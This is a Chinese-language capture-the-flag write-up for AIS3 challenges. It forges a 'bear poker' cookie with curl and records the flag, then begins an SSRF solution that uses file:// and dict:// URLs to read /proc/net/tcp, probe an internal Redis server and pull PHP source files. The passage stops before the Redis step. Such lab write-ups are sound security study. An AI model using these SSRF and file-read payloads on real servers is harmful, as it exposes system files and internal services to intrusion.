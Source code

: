 ![image](https://user-images.githubusercontent.com/57281249/168679172-e8275cf9-dde3-4a8c-93ad-d273d5f9edf4.png)

找與眾不同的那個 
``` bash
grep -v "You shouldn't poke a cat!" /tmp/output | grep -v "Poked, but nothing happened!"
```

![image](https://user-images.githubusercontent.com/57281249/168679215-cf3a67b0-3693-4872-a510-faff04ff99b2.png)

他說你不是 `bear poker` 八成要改 cookie。

``` bash
curl -X POST http://chals1.ais3.org:8987/poke --header "cookie: human=\"bear poker\"" -d "bear_id=499"
```

![image](https://user-images.githubusercontent.com/57281249/168679292-88af88d7-6247-4565-a814-babb679dc24c.png)

#### Flag
`AIS3{y0u_P0l<3_7h3_Bear_H@rdLy><}`

### Private Browsing
#### 題目

![image](https://user-images.githubusercontent.com/57281249/168679457-367f5a33-25db-4a3e-8f4e-244d8f1f7746.png)

#### 解題
看起來是很經典的 ssrf 雖說前端鎖定 `http[s]` 但後端沒鎖，所以直接用 `/api.php` 做 ssrf。

![image](https://user-images.githubusercontent.com/57281249/168679552-88a04987-7d50-483e-96ff-3c07959cb7ee.png)

先 `http://chals1.ais3.org:8763/api.php?action=view&url=file:///proc/net/tcp` 看有那些機器可以打。

![image](https://user-images.githubusercontent.com/57281249/168679688-0c967c35-cb63-431f-955d-16314138d99f.png)

可以看到 server 頻繁的對 `192.168.224.2:6379` 做存取

![image](https://user-images.githubusercontent.com/57281249/168679788-895144f3-7c15-491a-a442-9a722c921126.png)

google 查到 tcp 6379 port 是 redis

`http://chals1.ais3.org:8763/api.php?action=view&url=dict://192.168.224.2:6379/info` 證實了是 redis。

![image](https://user-images.githubusercontent.com/57281249/168679873-1df967d9-9962-4c41-99e1-9482f9ebd724.png)

但資訊依然不夠，因此抓 source code  `http://chals1.ais3.org:8763/api.php?action=view&url=file:///var/www/html/api.php`

![image](https://user-images.githubusercontent.com/57281249/168679976-11321211-7ae7-4d26-81b0-c9f9d53d475e.png)

有一個 `require_once 'session.php'` 把他抓下來 `http://chals1.ais3.org:8763/api.php?action=view&url=file:///var/www/html/session.php`

![image](https://user-images.githubusercontent.com/57281249/168680029-3bd44063-68a1-47d3-8907-96a9e6adc53f.png)
